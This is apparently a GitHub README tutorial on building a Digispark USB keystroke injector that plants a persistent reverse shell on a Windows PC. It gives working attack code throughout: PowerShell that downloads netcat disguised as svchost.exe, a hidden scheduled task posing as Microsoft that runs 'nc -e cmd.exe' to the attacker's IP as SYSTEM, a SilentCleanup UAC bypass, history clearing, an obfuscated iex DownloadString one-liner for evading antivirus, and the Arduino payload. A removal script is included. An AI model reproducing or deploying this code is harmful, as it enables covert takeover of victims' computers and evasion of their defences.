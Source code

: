 ## Gain control on a computer in 3 seconds

#### As seen on Mr.Robot (S04x10)

![Mr Robot hodling Digispark](https://cdn.discordapp.com/attachments/914907771063894059/926024143202295828/IMG_0022.png)


**S**o, I made a rubber ducky with a small arduino board called [digispark](https://www.amazon.in/dp/B07B8SS1VQ/ref=cm_sw_r_cp_api_glt_fabc_MHJ6HENHA71NN6VZK0DE). The original rubber duckies are pretty costly (for me anyway) [[link here]](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). Sure they're fast and have more memory than digisparks, but making one our own will give us complete control of the board.We can configure the boot load times, make signals with on-board led etc.

## UAC bypass

UAC means 'User Account Control'. Yes, even if your computer has tight securities like when you try to install an app, the UAC dialogue box appears asking  a simple'Yes' or 'No'. We're going to bypass and go further.

![UAC prompt screen](https://cdn.discordapp.com/attachments/914907771063894059/925379076624113734/IMG_0014.jpg)

We'll also evade all major anti-virus applications using clever tricks.

## So how do we do this
Well, first of all you need to download netcat 1.12 [[link here]](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip) and extract the **nc64.exe.** Once you got it extracted upload it to some file-hosting service of your choice, which provides **DIRECT LINK** (very important!!). I used **Discord**, it works like a charm and link doesn't expire. Just upload the file to discord, right click on it and select copy media link.

&#x200B;

Second, you need to make yourself an **.XML** file which you'll need later for Task Scheduler. I believe scheduled tasks are really good way to set up persistence. It means our hack will always run in background even when the system restarts or anything. Scheduled tasks are also good for escalating the file that it executes to **NT Authority\\SYSTEM** privileges, while remaining stealthy. 

I already did the work for you.This is what it should look like.


    <?xml version="1.0" encoding="UTF-16"?>
    <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
      <RegistrationInfo>
    <Author>Microsoft Corporation</Author>
    <Description>This will ensure system stability in case of an unexpected update interruption.</Description>
      </RegistrationInfo>
      <Triggers>
    <LogonTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <Enabled>true</Enabled>
      <Delay>PT30S</Delay>
    </LogonTrigger>
      </Triggers>
      <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
      </Principals>
      <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>true</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
      </Settings>
      <Actions Context="Author">
    <Exec>
      <Command>%public%\audiosvc.exe</Command>
      <Arguments>(Your IP address without brackets) 4444 -e cmd.exe -d</Arguments>
    </Exec>
      </Actions>
    </TASK>



Just modify the arguments in the bottom with your **IP/PORT**. You can google how to find ip-address of your device.Once you got that done, save it and upload it for **DIRECT LINK**, just like you uploaded your previous file. 



&#x200B;

Now, that the boring setup part is over, we get to the actual code that's being executed to achieve this type of shell:

    cd $env:public
    $url1="YOUR_NC64_LINK"
    $url2="YOUR_XML_LINK"
    $path1="$env:public\svchost.exe"
    $path2="$env:public\x.xml"
    (new-object net.webclient).downloadfile($url1,$path1)
    (new-object net.webclient).downloadfile($url2,$path2)
    cmd /r 'reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" /va /f&reg add "HKCU\Environment" /v "windir" /d "%comspec% /r mode 18,1&cd %public%&schtasks /create /tn \"Windows Update Assistant\" /f /xml x.xml >nul&schtasks /run /tn \"Windows Update Assistant\" /i >nul&REM "&timeout /t 1&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul&timeout /t 1&reg delete "HKCU\Environment" /v "windir" /F&attrib +s +h svchost.exe&del /q x.xml'

## Whats happening?

We're creating a persistent reverse shell(more about reverse shell [[link here]](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)).

First, it downloads both of your files via powershell, then it clears our Windows + R history to clear any traces of itself (if you're using  USB RubberDucky). Then it uses the UAC bypass technique i shared at the end of this post to create scheduled task called **Windows Update Assistant**, which is set to be executed to run with **NT Authority\\SYSTEM** privileges(high level privileges or access) in our **.XML** file. Then it marks our **nc64.exe** file as hidden system file, which is also now called **svchost.exe** and then it deletes our **.XML** file, since system doesn't need it anymore after task is created.

&#x200B;

Now you're probably thinking, this is all nice, but how the hell do we run this in one-line of code?

Very simple, by invoking expression called **DownloadString** in powershell like this:

    powershell -nop -w 1 -c "iex (new-object net.webclient).downloadstring('YOUR_PASTEBIN_LINK')"

But problem with this one-liner is, that it gets picked up by most Anti-viruses as "malicious activity". Therefore, we need to obfuscate(hide) it a bit:

    cmd.exe /c powershell -nop -w 1 -c "iex (.('ne'+'w-ob'+'ject') ('ne'+'t.webc'+'lient')).('do'+'wnloadstr'+'ing').invoke(('Y'+'OUR_'+'PASTEBIN'))"

And there it is, this one liner will get you persistent reverse shell which will check for itself every minute if it's running and if it's not, then it executes itself silently in the background.

&#x200B;

## The UAC bypass technique

Bypassing highest UAC level [Windows 8,10,11]

&#x200B;

It's done by adding temporary Environment variable **windir** into **HKCU\\Environment** registry path.

There's an auto-elevated task called **SilentCleanup** and it's located in: **%windir%\\system32\\cleanmgr.exe** We can easily abuse this and elevate any file with Administrator privileges without prompting UAC (even highest level).

So let's say I'm gonna set **windir** to: "**cmd /k REM** "

And forcefully run **SilentCleanup** task:

    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

**REM** will tell it to ignore everything after **%windir%** and treat it just as a NOTE. Therefore just executing cmd with admin privs.

If you want to try this for yourself, here's a little batch script I made to elevate powershell:

    @echo off
    mode 18,1
    color FE
    reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
    timeout /t 2 >nul
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
    timeout /t 3 >nul
    reg delete "HKCU\Environment" /v "windir" /F

&#x200B;

## Wait i hacked my own system

You may be testing this on your own system. If you want to remove the reverse shell, copy the following code into a batch file( files ending with .bat extension on windows) and run it with administrator privilages.(right click on the bat file and click run-as-administrator).


    @echo off
    schtasks /end /tn "Windows Update Assistant" >nul
    schtasks /delete /tn "Windows Update Assistant" /f
    cd %public%
    attrib -s -h svchost.exe
    del /q svchost.exe
    timeout /t 1 >nul



&#x200B;


## Rubber ducky code

Digispark works with Arduino IDE, you can learn writing Arduino scripts on google.It's pretty simple and easy. You can learn how to setup Arduino IDE for digispark here [[Link]](https://maker.pro/arduino/projects/how-to-build-a-rubber-ducky-usb-with-arduino-using-a-digispark-module)

    #include "DigiKeyboard.h"

    void setup() {}

    void loop() {
	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(3000);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(500);
	DigiKeyboard.print("[code]");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

Above code is simple and Works on any PC. Plug-in your digispark to PC and see the magic happen in 3 seconds.